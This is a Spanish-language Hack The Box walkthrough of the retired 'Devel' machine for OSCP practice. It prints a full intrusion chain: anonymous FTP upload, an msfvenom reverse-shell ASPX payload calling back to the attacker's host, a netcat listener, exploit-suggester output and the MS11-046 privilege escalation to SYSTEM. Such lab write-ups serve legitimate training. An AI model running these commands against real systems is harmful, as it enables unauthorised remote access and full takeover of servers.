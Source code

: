 ```yaml
---
layout: post
title:  "OSCP Path ~ Devel de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada DEVEL siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, IIS, Upload Files, privesc Maquinas Retiradas, Writeup, Windows Hacking
---
```


# Devel ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.5      "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 08-22-21  08:57PM                    6 test.html
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Procedemos a enumerar el servicio FPT y ver si podemos bajar los recursos disponibles y subir archivos.
Descargamos los recursos disponibles y verificamos que podemos subir archivos como el usuario `Anonymous`.

Procedemos a subir un archivo llamado prueba.txt que subimos por el ftp, para ver si podemos apuntar desde la pagina web ya que vemos recursos web almacenados en el servicio FTP que podrian ser del servicio HTTP
```bash
# ftp 10.10.10.5                                                                                                                                                                                              1 ⚙
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pro): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put prueba.txt
local: prueba.txt remote: prueba.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
```

Lanzamos un  `Whatweb`
```bash
# whatweb http://10.10.10.5                                                                                                                                                                                  1 ⚙
http://10.10.10.5 [200 OK] Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/7.5], IP[10.10.10.5], Microsoft-IIS[7.5][Under Construction], Title[IIS7], X-Powered-By[ASP.NET
```
Procedemos a hacer Fuzzing a nivel web. 
Al ser un servidor IIS 7-5 ssabemos que la extension de los archivos puede ser `aspx`
No encontramos Directorios potenciales.. 

Probamos a intentar apuntar al archivo que acabamos de subir al fpt llamdo `prueba.txt`
```bash
# curl -s -X GET "http://10.10.10.5/prueba.txt"
Se esta tensando que te cagas .. Ojito ..
```

Vemos que es nuestro archivo. Sabiendo esto y con las extensiones que trabaja el CMS IIS procedemos a crearnos una Reverse-shell con la herramienta `msfvenom`
```bash
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.21 LPORT=443 -f aspx > shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2696 bytes
```
Y ahora que ya la tenemos vamos a ver si atraves del servicio FTP podemos subirla sin problema para luego apuntar a la misma y conseguir acceso a la maquina victima
```bash
# ftp 10.10.10.5  
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:pro): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2731 bytes sent in 0.00 secs (74.4138 MB/s)
```
Procedemos a ponernos a la escucha en una session con `netcat` para recibir cualquier conexion entrante por el puerto 443

Procedemos a apuntar a la dirrecion HTTP + nuestro archivo shell.aspx
```bash
# curl -s -X GET "http://10.10.10.5/shell.aspx"
```
Recibimos la conexion correctamente:
```bash
# rlwrap nc -vlnp 443                                                                                                                                                                                         1 ⚙
listening on [any] 443 ...
connect to [10.10.16.21] from (UNKNOWN) [10.10.10.5] 49157
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv> whoami
iis apppool\web
```
Probamos a sacar el `systeminfo` de la maquina victima para pasarselo a `Windows-Exploit-Suggester`:
```bash
# python windows-exploit-suggester.py --database 2021-08-27-mssb.xls --systeminfo ../systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
Vemos diferentes exploits para escalar privilegios, pero investigando un poco sobre exploits para privesc en una maquina Windows-7
```bash
Subimos este binario por el servicio FTP: ms11-046.exe
Directory of c:\inetpub\wwwroot             ruta de los archivos almacenados FTP                                                                                                                                                                       
27/08/2021  11:52 ��    <DIR>          .                                    
27/08/2021  11:52 ��    <DIR>          ..                                                                                                                                       
18/03/2017  02:06 ��    <DIR>          aspnet_client                                                                                                                               
17/03/2017  05:37 ��               689 iisstart.htm                                                                                                                      
27/08/2021  01:41 ��           112.725 ms11-046.exe                                                                                                                           
27/08/2021  01:41 ��             2.696 shell.aspx                                                                                                                              
17/03/2017  05:37 ��           184.946 welcome.png                                                                                                                                                                  
               4 File(s)        301.056 bytes                                                                                                                                                                       
               3 Dir(s)  22.273.048.576 bytes free                                                                                                                             
```
 Ejecutamos el binario:
```
ms11-046.exe
ms11-046.exe

whoami
whoami
nt authority\system
```
